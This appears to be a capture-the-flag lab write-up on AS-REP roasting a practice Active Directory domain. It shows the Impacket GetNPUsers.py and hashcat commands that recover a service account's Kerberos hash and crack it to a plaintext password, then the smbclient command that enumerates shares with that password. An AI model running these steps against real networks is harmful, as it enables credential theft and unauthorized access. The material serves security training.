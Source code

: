 # Retrieving Kerberos Tickets
We'll use ==Impacket's== tool called ==GetNPUsers.py==
- Retrieve domain users who have "Don't require Kerberos preauthentication" set and ask for their TGTs without knowing the password

**Targets** - `svc-admin@THM-AD`, `backup@THM-AD`
I will place these two users in a `.txt` file like:
```
svc-admin
backup
```

and then run
`python3 GetNPUsers.py spookysec.local/ -usersfile /home/kali/Documents/A/targetusers.txt -dc-ip 10.10.171.16 -dc-host THM-AD`

Results:
```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7bb613fbc20d5367449e918e59b8d469$8d0f5633ccdd01e672659e8727883a5b16b1130455e4d5c95f837b2b58cafb538db39dd49cdb478ed6320f77a7deb0be2a17607066460e24c201e40e469f28855dcc1f3169175970b3e3b3da5d5b14a7dad7871e319257a4fdd89c7e476a9c6622c5aad1e242cc00065e81f52b9b6047fbe077ffd330d2855cb6dff41bbf61d1ba0cdaa7649ecfc109ae8b27c850f549d00999587a50d27c73488b46841a46d8ce5f8527a04be0260d3952c7776b2766810379c5ad97450c42b95516ad54eacd44ab8dbf53268f750a9569d6258bb5920da27971aa046db9144a08f0ce949c3c69b58dc2c212ed3aa66bd38384e96e78b3a5
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Let's look at: https://hashcat.net/wiki/doku.php?id=example_hashes to figure out what hash we have.
![[Pasted image 20250521052015.png]]
`Kerberos 5, etype 23, AS-REP`
`18200`

I will place the hash in a file and crack it with the provided wordlist.

`hashcat -m 18200 '/home/kali/Documents/A/hash' '/home/kali/Documents/A/passwordlist.txt'`

==CRACKED!==
```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7bb613fbc20d5367449e918e59b8d469$8d0f5633ccdd01e672659e8727883a5b16b1130455e4d5c95f837b2b58cafb538db39dd49cdb478ed6320f77a7deb0be2a17607066460e24c201e40e469f28855dcc1f3169175970b3e3b3da5d5b14a7dad7871e319257a4fdd89c7e476a9c6622c5aad1e242cc00065e81f52b9b6047fbe077ffd330d2855cb6dff41bbf61d1ba0cdaa7649ecfc109ae8b27c850f549d00999587a50d27c73488b46841a46d8ce5f8527a04be0260d3952c7776b2766810379c5ad97450c42b95516ad54eacd44ab8dbf53268f750a9569d6258bb5920da27971aa046db9144a08f0ce949c3c69b58dc2c212ed3aa66bd38384e96e78b3a5:management2005

```

***

With these credentials, we can access more within the domain.

Let's enumerate any shares with ==smbclient==
`smbclient -L spookysec.local -I 10.10.171.16 -U svc-admin
`
and then enter `management2005`
